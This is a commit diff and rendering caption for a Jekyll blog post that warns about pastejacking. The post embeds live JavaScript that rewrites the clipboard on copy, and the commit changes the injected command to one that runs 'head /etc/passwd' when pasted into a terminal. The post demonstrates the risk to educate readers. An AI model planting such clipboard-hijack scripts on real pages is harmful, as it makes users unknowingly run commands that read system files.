

Before and after one commit to travisbgreen/travisgreen.net, a Jekyll site: the page built from _posts/2018/2018-04-24-dangerous-clipboards.markdown, in a window 1280 px wide. Shown: the top 676 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

```diff
--- a/_posts/2018/2018-04-24-dangerous-clipboards.markdown
+++ b/_posts/2018/2018-04-24-dangerous-clipboards.markdown
@@ -5,7 +5,7 @@ date: '2018-04-24 13:11'
 ---
 Have you ever cut/copied/pasted into a terminal window? Here's one of a few reasons why you shouldn't:
 
-note -- another example here: view-source:https://security.love/Pastejacking/
+
 
 ### example 1:
 {::nomarkdown}
@@ -18,6 +18,8 @@ note -- another example here: view-source:https://security.love/Pastejacking/
 {:/}
 
 
+
+
 ### example 2:
 {::nomarkdown}
   <!-- credit to https://security.love/Pastejacking/ -->
@@ -25,7 +27,7 @@ note -- another example here: view-source:https://security.love/Pastejacking/
         <script>
             document.addEventListener('copy', function(e){
                 console.log(e);
-                e.clipboardData.setData('text/plain', 'echo "evil"\r\n');
+                e.clipboardData.setData('text/plain', 'echo "bad idea!" && head /etc/passwd\r\n');
                 e.preventDefault(); // We want our data, not data from any selection, to be written to the clipboard
             });
         </script>
```
